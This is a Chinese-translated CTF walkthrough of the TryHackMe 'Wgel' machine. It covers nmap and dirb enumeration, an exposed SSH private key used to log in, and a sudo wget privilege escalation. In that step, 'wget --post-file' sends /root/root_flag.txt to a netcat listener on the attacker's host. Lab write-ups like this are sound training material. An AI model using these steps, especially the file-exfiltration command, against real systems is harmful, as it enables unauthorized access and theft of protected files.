# 威格尔·CTF—TryHackMe 演练

> 原文：<https://infosecwriteups.com/wgel-ctf-tryhackme-walkthrough-e1912f5ee62c?source=collection_archive---------1----------------------->



*免责声明:本文仅用于教育目的，未经被黑对象的事先同意，不要试图黑入任何人的设备，并且仅将这些信息用于道德目的。此外，不要侵入文章中显示的 IP，因为你需要 VPN 访问来查看它们，并且它总是在变化。*

学习道德黑客的最好方法是实践。但是真的很难找到愿意同意你黑他们的人**。这就是 Capture the Flag(CTF)公司发挥作用的地方，这些公司(如 TryHackMe)允许你合法地在他们的机器上进行道德黑客行为。在这篇文章中，我将带你了解如何在 TryHackMe 上攻击**威格** CTF。**

## 扫描和计数

我总是做的第一件事是用 Nmap 运行网络扫描，这样我就可以了解网络结构/架构，信息=能力。

```
nmap -A -T4 -v [IP]
```

*   A =获取设备信息
*   T4 =跑得更快
*   v =扫描时打印输出



Nmap 结果

我看到运行 Apache 的端口 80 是打开的，所以我在 web 浏览器中打开了这个网站，查看发生了什么。我看到了一个默认网页(表明卫生/实践不佳)



默认 Apache 网页

我查看了页面源代码，看到了一个叫“jessie”的评论，这可能是一个用户名。



默认网页的页面来源

我开始用 *dirb* 枚举网页目录

```
dirb http://[ip]
```



Dirb 结果

它返回的结果是 *http://[ip]/sitemap* 作为一个可能的目录，我导航到它并看到


网站目录“网站地图”

我开始在网站上手动枚举，但是似乎没有什么问题，所以我用 *dirb 在网站目录上做了更多的枚举。*



枚举“站点地图”目录

看到了 *http://[ip]/sitemap/。ssh* ，它看起来很有趣，所以我导航到目录并看到了它。



在/sitemap/中。ssh 目录

我点击 id_rsa 目录，它向我显示了一个私有 ssh 密钥。可用于登录 ssh 而无需密码。



私有 ssh 密钥

我只是将它复制到一个文件中，并确保将其文件权限更改为 **600，**，因为没有特定的权限它将无法工作。

```
nano id_rsa
chmod 600 id_rsa
```

## **利用**

现在我们可以通过 ssh 登录了

```
ssh -i id_rsa jessie@[ip] 
```



使用 id _ rsa 到机器中

耶，我们有低级别权限

## **特权升级**

当我想提升我的权限时，我做的第一件事就是检查 Sudo 权限(例如:我可以作为 root 运行什么)

```
sudo -l
```



检查 sudo 权限

我们可以看到，我们可以以 root 用户身份运行 wget，现在我们可以转到 [GTFObins](https://gtfobins.github.io/) 来寻找升级技术。



GTFObins wget sudo 升级技术

从高层次上看，这些命令基本上是获取某个文件，并将其发送到道德黑客的桌面。我们可以通过在自己的机器上打开一个端口来复制这种技术

```
nc -nvlp 9999
```

然后向该机器发送根标志

```
sudo wget --post-file=/root/root_flag.txt [http://[my_ip]:9999](http://[my_ip]:9999)
```

现在，如果我们回顾 netcat，我们可以看到一串字符(这是根标志)。



Netcat 接收根标志

恭喜你，你已经根了机器。感谢您阅读这个 CTF 演练，并记住**只有**将此信息用于**道德目的。**

# 🔈 🔈Infosec Writeups 正在组织其首次虚拟会议和网络活动。如果你对信息安全感兴趣，这是最酷的地方，有 16 个令人难以置信的演讲者和 10 多个小时充满力量的讨论会议。[查看更多详情并在此注册。](https://iwcon.live/)

[](https://iwcon.live/) [## IWCon2022 - Infosec 书面报告虚拟会议

### 与世界上最优秀的信息安全专家建立联系。了解网络安全专家如何取得成功。将新技能添加到您的…

iwcon.live](https://iwcon.live/)